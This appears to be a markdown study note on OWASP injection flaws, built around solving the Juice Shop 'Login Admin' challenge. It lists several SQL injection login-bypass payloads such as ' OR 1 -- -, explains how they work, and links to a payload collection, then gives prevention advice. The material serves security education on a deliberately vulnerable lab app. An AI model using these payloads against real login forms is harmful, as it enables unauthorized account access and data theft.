




# Overview
Injection slides down to the third position. 94% of the applications were tested for some form of injection with a max incidence rate of 19%, an average incidence rate of 3%, and 274k occurrences. Notable Common Weakness Enumerations (CWEs) included are CWE-79: Cross-site Scripting, CWE-89: SQL Injection, and CWE-73: External Control of File Name or Path.

### Description
An application is vulnerable to attack when:
-   User-supplied data is not validated, filtered, or sanitized by the application.

-   Dynamic queries or non-parameterized calls without context-aware escaping are used directly in the interpreter.

-   Hostile data is used within object-relational mapping (ORM) search parameters to extract additional, sensitive records.

-   Hostile data is directly used or concatenated. The SQL or command contains the structure and malicious data in dynamic queries, commands, or stored procedures.

Some common examples where application is valnerable to injection is 
-   user-supplied data is not validated, filtered or sanitized by application
-   Dynamic queries or non-parameterized calls are used directly
## -   examples:
```commandline
select * from users where username="user" and Password=@Password
```

https://help.owasp-juice.shop/part2/injection.html



We will try to solve on of the challenges : Login Admin using injection velnarabolity
Below git hub repo has all the common sql injection payloads
https://github.com/mishmashclone/swisskyrepo-PayloadsAllTheThings
https://github.com/mishmashclone/swisskyrepo-PayloadsAllTheThings/tree/master/SQL%20Injection
```commandline
' OR 1 -- -
' OR 1;-- 
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
```

```commandline
' ==> (single quote can break any sql query which return in the backend)

this will work only when non parametrized data

OR 1 ==> fetch the result from dB

-- ==> this will comment out the rest of query
- ==> ignore the password match
```
Go to the login page


### same username and password: ' OR 1 -- -





## Preventions:

1. Parameterised Queries should be implemented for databases access by application:
example:
2. we can use PREPARE statement library to pass the paramaters 
````commandline
PREPARE TestStmt FROM
'select * from test where TestNumber=?'
````
3. Implement the server side input validation in the application as well along with client side input validation
4. Use Limit and other SQL control within request quieries to prevent mass disclosure of record in case of sql injection.


